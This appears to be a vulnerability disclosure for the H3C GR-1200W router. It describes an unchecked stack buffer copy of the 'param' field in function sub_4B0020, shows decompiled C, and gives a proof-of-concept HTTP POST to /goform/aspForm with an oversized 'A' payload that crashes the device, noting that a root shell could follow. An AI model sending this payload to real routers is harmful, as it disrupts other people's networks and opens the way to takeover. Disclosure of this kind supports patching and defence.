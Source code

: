 ### Affected product

```
H3C GR-1200W  MiniGRW1A0V100R006
```

### Firmware

```
https://www.h3c.com/cn/d_202102/1383837_30005_0.htm
```
In function sub_4B0020,the content obtained by the program from the parameter "param" is passed to s .Then the s is directly copied into the v5 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4B0020(int a1)
{
  int v2; // [sp+18h] [+18h]
  int v3; // [sp+1Ch] [+1Ch]
  char *s; // [sp+24h] [+24h]
  int v5[5]; // [sp+2Ch] [+2Ch] BYREF

  v5[0] = 0;
  v5[1] = 0;
  v5[2] = 0;
  v5[3] = 0;
  s = (char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  sscanf(s, "%[^;]", v5);
  if ( atoi((const char *)v5) == 1 )
  {
    v3 = CFG_GetTBLFirstIndex(254, 507772928);
    while ( v3 > 0 )
    {
      v2 = v3;
      v3 = CFG_GetTBLNextIndex(254, v3 + 507772928);
      CFG_Del(254, v2 + 507772928);
    }
  }
  CFG_Del(254, 507510784);
  CFG_Set(254, 507514880, v5);
  CFG_SetInt32Value(254, 507518976, 1);
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=ap_version_check&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
